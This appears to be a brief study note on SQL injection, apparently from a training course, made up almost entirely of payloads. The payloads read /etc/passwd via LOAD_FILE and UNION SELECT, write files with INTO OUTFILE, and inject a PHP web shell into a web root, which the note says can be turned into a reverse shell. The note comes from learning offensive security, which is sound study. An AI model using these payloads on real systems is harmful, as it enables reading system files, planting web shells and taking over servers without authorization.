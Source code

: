 # SQL Injection Fundamentals

This was all pretty simpe. The new stuff is as follows.

## Reading Files

```sql
SELECT LOAD_FILE('/etc/passwd');
```

```sql
UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -
```

## Writing Files

```sql
SELECT 'this is a test' INTO OUTFILE '/tmp/test.txt';
```

```sql
cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -
```

This can be used to get a reverse shell

